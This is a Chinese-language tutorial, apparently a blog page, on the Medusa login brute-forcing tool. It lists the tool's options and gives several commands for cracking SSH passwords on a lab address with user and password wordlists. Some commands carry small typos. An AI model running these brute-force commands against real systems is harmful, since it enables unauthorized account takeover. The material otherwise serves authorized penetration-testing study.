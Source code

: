 > ==语法参数==

```linux
Medusa [-h host | -H file] [-u username | -U file] [-p password | -P file] [-C file] -M moudle [OPT]

-h [TEXT] 目标主机名称或者IP地址
-H [FILE] 包含目标主机名称或者IP地址文件
-u [TEXT] 测试的用户名
-U [FILE] 包含测试的用户名文件
-p [TEXT] 测试的密码
-P [FILE] 包含测试的密码文件
-C [FILE] 组合条目文件
-O [FILE] 日志信息文件
-e [n/s/ns] n代表空密码，s代表为密码与用户名相同
-M [TEXT] 模块执行名称
-m [TEXT] 传递参数到模块
-d 显示所有的模块名称
-n [NUM] 使用非默认TCP端口
-s 重启SSL
-r [NUM] 重试间隔时间，默认为3秒
-t [NUN] 设定线程数
-T 同时测试的主机总数
-L 并行化，每个用户使用一个线程
-f 在任何主机上找到第一个账号/密码后，停止破解
-F 在任何主机上找到第一个有效的账号/密码后，停止审计
-q 显示模块的使用信息
-v [NUM] 详细界别（0~6）
-w [NUM] 错误调试级别（0~10）
-V 显示版本
-Z [TEXT] 继续扫描上一次
```

**破解SSH密码**

```linux
root@kali:~#`medusa -M ssh -h 192.168.106.134 -u root -P passlist.txt
```

![X01](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210913180100.png)

```linux
root@kali:~#medusa -M ssh -H hostlist.txt -U userlist.txt -P passlist.txt
```

![13-9](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210913180531.png)

```linux
root@kali:~#medusa -M ssh -h 192.168.106.134 -U userlist.txt -p passlist.txt -F
```

![13-10](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210913180620.png)

```linux
root@kali:~# medusa -M ssh -H hostlist.txt -U userlist.txt -P passlist.txt -O ssh.log输出到ssh.log
```

